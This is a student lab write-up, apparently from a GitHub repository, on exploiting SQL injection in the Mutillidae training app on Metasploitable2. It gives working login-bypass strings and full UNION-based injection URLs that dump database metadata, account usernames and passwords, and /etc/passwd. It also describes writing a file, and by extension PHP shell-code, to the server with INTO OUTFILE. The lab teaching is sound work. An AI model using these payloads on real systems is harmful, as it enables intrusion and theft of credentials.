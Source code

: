 Name: Hema dharshini N
reg no : 212223220034

# sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![eth8 1](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/650d4cad-5748-4069-bf1d-8cd499d4fce6)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.

![eth8 2](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/e86808fd-2a79-4efd-b782-a50ddcf2e7ca)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![eth 8 3](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/217765b3-d322-4406-9acf-efd1b91fef37)
Click on the menu Login/Register and register for an account

![eth 8 4](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/994b10c6-f9dc-4f86-9dfa-506e8e3c4be8)
Click on the link “Please register here”
![eth 8 5](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/89f0c530-eb54-4801-afe3-084748352b51)
Click on “Create Account” to display the following page: 
![eth 8 6](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/6e476216-6765-471a-975f-bf655e4d2225)
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![eth 8 7](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/5142df6e-7f72-4ea0-9d67-84592c271940)
Click “Login”. The logged in page will show as below:
![eth 8 8](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/2310eabc-d4fd-4e9e-80eb-54955bb35f4e)
## Bypassing login field:
The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![eth8 9](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/94b8269e-49fa-49e8-a560-d399fcea9670)

Click the login button and you will see it enter into the administrator page.
![eth 8 28](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/2d9ec1d5-ab4e-41e3-ba27-ad555172bbe7)

## Union-based SQL injection:
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below: img
![eth8 10](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/d0bd94c2-7608-4c5e-814e-0d3f11556864)
![eth 8 11](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/06a06b44-98d2-4977-906f-a4a533ab7bfd)
![eth 8 11](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/33334541-8789-40eb-a38d-22b3b11c43f6)
![eth8 13](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/ea79fdde-b333-4f21-8750-0b7e7bd20be2)
![eth 8 14](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/9370ac48-4c90-4849-af4b-f807d959a88c)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![eth 8 15](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/d8b5f209-54a7-4e9c-a506-be4d04a092b9)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 16](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/7c4d0179-0d0b-4de7-b23c-aa2c6c1d78f2)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![eth 8 17](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/200b0f88-00af-4877-a112-c07dfc9ae425)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![eth 8 18](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/a6e24728-1238-41dd-bae2-f09b7b8a7db8)
As it is having 5 columns the query worked fine and it provides the correct result
![eth 8 19](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/532dffdf-3d42-40c6-b775-5b7429696bc8)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![eth 8 20](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/b6b69a95-b8a5-4fe9-bcff-4a7315f24769)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![eth 8 21](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/b93c11a0-a12c-4cab-87fc-fa521adf9d28)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 22](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/2328344d-084c-4585-b51e-a9009d8b9b4a)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 23](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/644d7f1c-3039-494b-a622-8799c41f3ebc)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![eth 8 24](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/618b3e09-dc41-494b-83b2-572dc28d5074)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 25](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/d5c5fcd8-774b-4d38-8ee0-73b71cec39a0)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 26](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/de94446f-a496-4fc6-9986-629eaac4536b)
## Reading and writing files on the web-server:
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![eth 8 27](https://github.com/hema-dharshini5/sqlinjection/assets/147117728/9a7cf898-b0bd-458b-a945-7eab736b7f88)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
